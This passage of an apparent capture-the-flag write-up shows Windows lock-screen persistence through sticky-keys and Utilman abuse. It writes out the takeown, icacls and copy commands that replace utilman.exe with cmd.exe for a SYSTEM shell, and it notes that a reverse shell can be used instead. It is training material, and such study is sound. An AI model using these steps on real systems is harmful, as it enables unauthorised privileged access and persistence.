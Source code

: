 ![](/assets/img/Pasted image 20230108125040.png)

##### 2. Lock the session:

![](/assets/img/Pasted image 20230108125115.png)

##### 3. Press the `SHIFT` key 5 times to trigger the Sticky key and then this triggers the payload:

![](/assets/img/Pasted image 20230108125225.png)

	- Of course, you can change the 'cmd.exe' into a reverse shell payload.

##### 4. Get the flag:

![](/assets/img/Pasted image 20230108125346.png)


### Utilman

- Utilman is a built-in Windows app used to provide `Ease of Access` options during the lock screen:

![](/assets/img/Pasted image 20230108125442.png)

- When we click the ease of access button on the login screen, it executes "`C:\Windows\System32\Utilman.exe`" with `SYSTEM` privileges.
- If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

##### 1. To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:
`> takeown /f C:\Windows\System32\utilman.exe`

![](/assets/img/Pasted image 20230108125947.png)

`> icacls C:\Windows\System32\utilman.exe /grant Administrator:F`

![](/assets/img/Pasted image 20230108130014.png)

![](/assets/img/Pasted image 20230108130049.png)

`> copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe`

![](/assets/img/Pasted image 20230108130113.png)

##### 2. To trigger the terminal, lock the screen from the start button.

![](/assets/img/Pasted image 20230108130143.png)

##### 3. Click the "`Ease of Access`" button. `cmd.exe` will execute instead of the legitimate `utilman.exe` with `SYSTEM` privileges.
